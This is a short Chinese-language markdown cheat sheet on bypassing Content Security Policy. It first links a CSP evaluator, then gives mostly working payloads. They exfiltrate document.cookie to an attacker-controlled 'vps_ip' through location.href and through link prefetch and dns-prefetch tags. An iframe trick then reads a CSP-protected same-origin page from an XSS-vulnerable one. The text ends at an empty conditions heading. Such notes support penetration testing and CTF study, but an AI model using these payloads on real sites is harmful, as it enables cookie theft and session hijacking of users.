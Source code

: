 ### 漏洞检测
CSP online检测工具：https://csp-evaluator.withgoogle.com/   
### bypass

#### location.href

```
location.href = "vps_ip:xxxx?"+document.cookie
```

利用条件:   
可以执行任意JS脚本，但是由于CSP无法数据带外   

#### link
导致的绕过这个方法其实比较老，去年我在我机器上试的时候还行，现在就不行了
因为这个标签当时还没有被CSP约束，当然现在浏览器大部分都约束了此标签，但是老浏览器应该还是可行的。   
```
<!-- firefox -->
<link rel="dns-prefetch" href="//${cookie}.vps_ip">
<!-- chrome -->
<link rel="prefetch" href="//vps_ip?${cookie}">
```
```
var link = document.createElement("link");
link.setAttribute("rel", "prefetch");
link.setAttribute("href", "//vps_ip/?" + document.cookie);
document.head.appendChild(link);
```
利用条件:   
可以执行任意JS脚本，但是由于CSP无法数据带外   

#### Iframe
当一个同源站点，同时存在两个页面，其中一个有CSP保护的A页面，另一个没有CSP保护B页面，那么如果B页面存在XSS漏洞，我们可以直接在B页面新建iframe用javascript直接操作A页面的dom，可以说A页面的CSP防护完全失效   
A页面:   
```
<!-- A页面 -->
<meta http-equiv="Content-Security-Policy" content="default-src 'self'; script-src 'self'">
<h1 id="flag">flag{0xffff}</h1>
```
B页面:   

```
<!-- B页面 -->
<!-- 下面模拟XSS -->
<body>
<script>
var iframe = document.createElement('iframe');
iframe.src="A页面";
document.body.appendChild(iframe);
setTimeout(()=>alert(iframe.contentWindow.document.getElementById('flag').innerHTML),1000);
</script>
</body>
```
利用条件:   
